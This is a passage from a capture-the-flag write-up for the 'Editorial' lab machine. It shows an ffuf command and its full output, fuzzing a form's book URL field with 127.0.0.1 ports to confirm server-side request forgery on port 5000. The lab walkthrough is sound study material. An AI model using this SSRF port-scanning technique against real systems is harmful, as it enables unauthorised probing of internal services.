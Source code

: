 Running FUFF reveals an open port on port 5000

```bash
$ ffuf -request request -request-proto http -w numbers.txt -fs 61

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://editorial.htb/upload-cover
 :: Wordlist         : FUZZ: /home/kali/numbers
 :: Header           : Origin: http://editorial.htb
 :: Header           : Referer: http://editorial.htb/upload
 :: Header           : Host: editorial.htb
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 :: Header           : Accept: */*
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Content-Type: multipart/form-data; boundary=---------------------------399227191530037445241476813042
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Connection: keep-alive
 :: Header           : Priority: u=0
 :: Data             : -----------------------------399227191530037445241476813042
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
-----------------------------399227191530037445241476813042
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream

-----------------------------399227191530037445241476813042--
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 61
________________________________________________

5000                    [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 59ms]
:: Progress: [20000/20000] :: Job [1/1] :: 241 req/sec :: Duration: [0:00:57] :: Errors: 1 ::
```

Visiting the `127.0.0.1:5000` we get a file back in the response, confirming SSRF.
